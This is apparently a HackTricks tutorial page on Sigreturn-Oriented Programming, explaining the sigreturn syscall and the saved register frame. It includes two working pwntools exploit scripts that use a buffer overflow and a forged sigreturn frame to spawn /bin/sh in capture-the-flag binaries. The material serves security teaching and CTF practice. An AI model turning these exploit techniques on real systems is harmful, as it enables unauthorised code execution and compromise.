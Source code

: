 # SROP - Sigreturn-Oriented Programming

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**`Sigreturn`** is a special **syscall** that's primarily used to clean up after a signal handler has completed its execution. Signals are interruptions sent to a program by the operating system, often to indicate that some exceptional situation has occurred. When a program receives a signal, it temporarily pauses its current work to handle the signal with a **signal handler**, a special function designed to deal with signals.

After the signal handler finishes, the program needs to **resume its previous state** as if nothing happened. This is where **`sigreturn`** comes into play. It helps the program to **return from the signal handler** and restores the program's state by cleaning up the stack frame (the section of memory that stores function calls and local variables) that was used by the signal handler.

The interesting part is how **`sigreturn`** restores the program's state: it does so by storing **all the CPU's register values on the stack.** When the signal is no longer blocked, **`sigreturn` pops these values off the stack**, effectively resetting the CPU's registers to their state before the signal was handled. This includes the stack pointer register (RSP), which points to the current top of the stack.

> [!CAUTION]
> Calling the syscall **`sigreturn`** from a ROP chain and **adding the registry values** we would like it to load in the **stack** it's possible to **control** all the register values and therefore **call** for example the syscall `execve` with `/bin/sh`.

Note how this would be a **type of Ret2syscall** that makes much easier to control params to call other Ret2syscalls:

{{#ref}}
../rop-syscall-execv/
{{#endref}}

If you are curious this is the **sigcontext structure** stored in the stack to later recover the values (diagram from [**here**](https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html)):

```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```

For a better explanation check also:

{{#ref}}
https://youtu.be/ADULSwnQs-s?feature=shared
{{#endref}}

## Example

You can [**find an example here**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) where the call to signeturn is constructed via ROP (putting in rxa the value `0xf`), although this is the final exploit from there:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

Check also the [**exploit from here**](https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html) where the binary was already calling `sigreturn` and therefore it's not needed to build that with a **ROP**:

```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```

## Other Examples & References

- [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
- [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
- [https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html)
  - Assembly binary that allows to **write to the stack** and then calls the **`sigreturn`** syscall. It's possible to write on the stack a [**ret2syscall**](../rop-syscall-execv/) via a **sigreturn** structure and read the flag which is inside the memory of the binary.
- [https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html)
  - Assembly binary that allows to **write to the stack** and then calls the **`sigreturn`** syscall. It's possible to write on the stack a [**ret2syscall**](../rop-syscall-execv/) via a **sigreturn** structure (the binary has the string `/bin/sh`).
- [https://guyinatuxedo.github.io/16-srop/inctf17_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17_stupidrop/index.html)
  - 64 bits, no relro, no canary, nx, no pie. Simple buffer overflow abusing `gets` function with lack of gadgets that performs a [**ret2syscall**](../rop-syscall-execv/). The ROP chain writes `/bin/sh` in the `.bss` by calling gets again, it abuses the **`alarm`** function to set eax to `0xf` to call a **SROP** and execute a shell.
- [https://guyinatuxedo.github.io/16-srop/swamp19_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19_syscaller/index.html)
  - 64 bits assembly program, no relro, no canary, nx, no pie. The flow allows to write in the stack, control several registers, and call a syscall and then it calls `exit`. The selected syscall is a `sigreturn` that will set registries and move `eip` to call a previous syscall instruction and run `memprotect` to set the binary space to `rwx` and set the ESP in the binary space. Following the flow, the program will call read intro ESP again, but in this case ESP will be pointing to the next intruction so passing a shellcode will write it as the next instruction and execute it.
- [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection)
  - SROP is used to give execution privileges (memprotect) to the place where a shellcode was placed.

{{#include ../../../banners/hacktricks-training.md}}
